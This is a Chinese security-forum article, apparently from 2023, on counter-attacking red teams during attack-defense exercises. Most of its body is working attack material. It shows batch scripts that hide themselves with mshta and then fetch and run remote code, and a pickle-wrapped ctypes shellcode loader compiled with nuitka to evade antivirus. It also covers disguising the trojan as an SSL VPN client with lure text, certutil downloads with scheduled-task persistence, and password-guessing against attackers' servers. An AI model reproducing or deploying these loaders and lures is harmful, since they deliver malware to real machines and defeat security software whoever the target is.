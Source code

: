前言
==

随着攻防演练的发展，无论是红队的钓鱼邮件还是蓝队的溯源反制都需要涉及到钓鱼与免杀。为什么防守队也需要钓鱼与免杀呢？因为在红蓝对抗中，如果只通过溯源加分是有限的，想要通过“攻击IP”就获取到攻击者的姓名、电话、地址等信息是比较困难的。那如果在前期就做好反制措施，比如在网站根目录放置一个钓鱼文件www.zip，那就需要涉及到钓鱼与免杀技术啦。

作者在前段时间也是承担着防守队的职责，通过溯源反制追回了几千分的分数。接下来作者会站在防守者的角度来说一说溯源反制在攻防演练中如何进行。

防守队溯源方法
-------

首先溯源讲究的就是有效还原攻击链：

1\. 攻击者是通过“哪个系统”+“哪个漏洞”打进来的，确认攻击IP有哪些。

2\. 攻击者打到内网后做了什么操作，例如“流量代理”+“内网穿透”。

3\. 最后总结哪些互联网和内网系统被拿下了，并且通过安全流量设备等方式证明攻击者的攻击动作。

溯源那肯定少不了一些威胁情报平台的帮助，作者通过攻击IP能够溯源到如下这些信息

**微步在线情报社区：**<https://x.threatbook.com/>

通过微步在线情报社区可以获取到该服务器的信息，信息模块如下

![图片1.png](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-2b4657bb2233f9351ffda167e3b14f64b02dbaa0.png)

**奇安信威胁情报中心：**<https://ti.qianxin.com>

通过奇安信威胁情报中心可以获取到该服务器的信息，信息模块如下，通过注册的域名可以反查到注册者的个人信息，这里可以做个报告发给裁判审核，说不定运气好就是攻击者的个人信息。

![图片2.png](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-8db72c9335c00363ba70a6028c35517a53ba934e.png)

![图片3.png](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-01487404a9937112998d6beeee791716db3d2474.png)

这里有个反制的思路，就是通过主机信息可以看到该服务器开放了多个端口，有些攻击者会在自己服务器上搭建“灯塔”、“Awvs”、“Nessus”等扫描系统，这时候如果能通过口令枚举等途径获取到服务器权限，也是能够给防守进行加分的。

![图片4.png](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-862532e70e797d6ed484deff48e56daeb004f054.png)

### 钓鱼文件反制（一）

攻击者通过都装有python、java等环境，cobalt strike有个钓鱼攻击模块（Scripted Web Delivery），利用python语言可以做到免杀的效果，这个作者也很好奇为啥不会被查杀。

![图片5.png](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-ec53ccdf3cc53c6febb57baad68f0419601f8aeb.png)

写个bat脚本，然后将shell脚本命令写在里面，然后通过伪装一下诱导攻击者去点击（例如zip压缩包自解压执行）

```php
@echo off

if "%1"=="h" goto begin

Start mshta vbscript:createobject("wscript.shell").run("""%~nx0""

h",0)(window.close)&&exit

:begin

python -c "import urllib2; exec urllib2.urlopen('http://ip:8090/a').read()

```

![图片6.png](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-cbf12dbd71e8d20b0e4b00d23f2dfae323a16651.png)

### 钓鱼文件反制（二）

制作免杀exe木马，然后伪装成防守单位的远程vpn程序

**代码test1.py**

```php
import pickle  
import base64  

shellcode = """  
import ctypes,urllib.request,codecs,base64  
shellcode = urllib.request.urlopen('http://ip/base64.txt').read()  
shellcode = base64.b64encode(shellcode)  
shellcode = base64.b64decode(shellcode)  
shellcode = base64.b64decode(shellcode)  
shellcode =codecs.escape\_decode(shellcode)\[0\]  
shellcode = bytearray(shellcode)  
\# 设置VirtualAlloc返回类型为ctypes.c\_uint64  
ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c\_uint64  
\# 申请内存  
ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c\_int(0), ctypes.c\_int(len(shellcode)), ctypes.c\_int(0x3000), ctypes.c\_int(0x40))  
\# 放入shellcode  
buf = (ctypes.c\_char \* len(shellcode)).from\_buffer(shellcode)  
ctypes.windll.kernel32.RtlMoveMemory(  
    ctypes.c\_uint64(ptr),  
    buf,  
    ctypes.c\_int(len(shellcode))  
)  
\# 创建一个线程从shellcode防止位置首地址开始执行  
handle = ctypes.windll.kernel32.CreateThread(  
    ctypes.c\_int(0),  
    ctypes.c\_int(0),  
    ctypes.c\_uint64(ptr),  
    ctypes.c\_int(0),  
    ctypes.c\_int(0),  
    ctypes.pointer(ctypes.c\_int(0))  
)  
\# 等待上面创建的线程运行完  
ctypes.windll.kernel32.WaitForSingleObject(ctypes.c\_int(handle),ctypes.c\_int(-1))"""  

class A(object):  
    def \_\_reduce\_\_(self):  
        return (exec, (shellcode,))  

ret = pickle.dumps(A())  
ret\_base64 = base64.b64encode(ret)  
print(ret\_base64)
```

**代码test2.py**

```php
mport base64,pickle,ctypes  
shellcode=b'这里填上面python脚本输出的数据'  
pickle.loads(base64.b64decode(shellcode))
```

生成exe文件，一个比较简单的免杀木马，可以绕过杀毒软件

```php
nuitka --mingw64 --standalone --show-memory --show-progress  --windows-company-name=test --windows-product-name=test --windows-file-version=1.0 --windows-product-version=1.0 --windows-file-description=test --windows-disable-console --nofollow-imports --follow-import-to=utils,src --onefile --output-dir=out test2.py
```

伪装成防守队攻击的sslvpn

利用BeCyIconGrabber.exe获取sslvpn的ico图标

![图片7.png](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-88103ede04f54cc145bc7341858f2e43acdbfe1c.png)

接着用工具Restorator 2018.exe替换图标，就可以伪造成一个sslvpn程序了

![图片8.png](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-c893d182f0fe00e790dcd6f6b0eedb37dab47737.png)

攻击者会对范围内的系统进行信息收集和攻击利用，这个时候，只需要将免杀木马和vpn连接的教程文档放在一个www.zip的压缩里面，稍微需要伪装一下，可以用类似这样的话术来欺骗攻击者：

> **vpn测试，仅内部员工使用！**
> 
> **点击文件夹中vpn程序，输入地址和端口**
> 
> **请输入账号密码xxx/xxx!@#123，即可访问资源**

![图片9.png](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-f9315407c3768acd88c51be9927df516991897c3.png)

![图片10.png](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-fd387aa158042f5b8af38a89035649c9b0c5f37f.png)

### 钓鱼文件反制（三）

bat脚本除了压缩包自解压运行之外，还可以利用工具将bat文件转成exe程序去伪装。

这里还是写个bat脚本文件，先利用certutil下载后门木马文件，然后做一个定时任务test，在每日下午16:18分运行后门木马文件。

```php
@echo off

if "%1"=="h" goto begin

start mshta vbscript:createobject("wscript.shell").run("""%~nx0""

h",0)(window.close)&&exit

:begin

copy c:\\windows\\system32\\certutil.exe a.exe

a.exe -urlcache -split -f  http://ip/test123.exe D://test123.exe

schtasks /create /tn test /tr D:\\\\test123.exe /sc daily /st 16:18
```

![图片11.png](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-9f8ca3e6e80f659a2439b167173f558e59e8ce49.png)

![图片12.png](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-87549d34fc18a5752d1e3ead34bfe8ee37e33932.png)

总结
==

以上是作者自己的一些溯源反制的思路及想法，仅作学习参考，个人觉得比较粗糙，但在攻防演练中也真实起到了作用。师傅们可以参考下上面的思路，在演练中创造出更加有新意、更加实用的一些溯源反制方法。